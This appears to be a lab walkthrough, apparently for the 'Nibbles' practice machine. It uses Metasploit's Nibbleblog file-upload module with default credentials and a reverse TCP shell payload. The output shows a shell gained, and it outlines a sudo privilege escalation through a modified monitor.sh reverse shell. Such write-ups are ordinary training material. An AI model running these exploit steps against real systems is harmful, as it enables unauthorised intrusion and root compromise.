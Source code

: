 ### Walkthrough: Exploiting Nibbles with Metasploit
- #### **1. Start Metasploit**
	- Launch Metasploit:
    ```bash
    msfconsole
    ```
- #### **2. Search for the Exploit**
	- Search for modules related to Nibbleblog:    
    ```bash
    search nibbleblog
    ```
	- **Output**:
    ```plaintext
    #  Name                                       Disclosure Date  Rank       Check  Description
    0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability
    ```
	- Select the exploit:
    ```bash
    use 0
    ```
- #### **3. Configure the Exploit**
	- Set **target IP** and **local IP**:
    ```bash
    set rhosts 10.129.42.190
    set lhost 10.10.14.2
    ```
	- View required options:
    ```bash
    show options
    ```
	- Set additional parameters:
    ```bash
    set username admin
    set password nibbles
    set targeturi nibbleblog
    ```
- #### **4. Change the Payload**
	- Use a reverse shell payload:
    ```bash
    set payload generic/shell_reverse_tcp
    ```
- #### **5. Exploit**
	- Run the exploit:
    ```bash
    exploit
    ```
	- **Output**:
    ```plaintext
    [*] Started reverse TCP handler on 10.10.14.2:4444 
    [*] Command shell session 4 opened (10.10.14.2:4444 -> 10.129.42.190:53642) at 2021-04-21 16:32:37 +0000
    [+] Deleted image.php
    ```
	- Verify access:
    ```bash
    id
    ```
	- **Output**:
    ```plaintext
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    ```
- #### **6. Privilege Escalation**
	- Follow the **manual privilege escalation path** previously detailed:
	    1. Extract `personal.zip`.
	    2. Modify `monitor.sh` to append a reverse shell payload.
	    3. Execute the script with `sudo`.
	    4. Catch the root shell on your listener.



### **Next Steps**
1. **Experiment**:
    - Try both manual and Metasploit methods for gaining initial foothold and privilege escalation.
    - Explore other Metasploit modules or tools for alternate methods.
2. **Documentation**:
    - Take detailed notes of each step, even when following an existing guide.
    - Create a blog walkthrough or report for personal reference.
3. **Enumeration**:
    - Investigate the system for additional vulnerabilities (e.g., outdated services, misconfigurations).
    - Test alternative attack paths for practice.
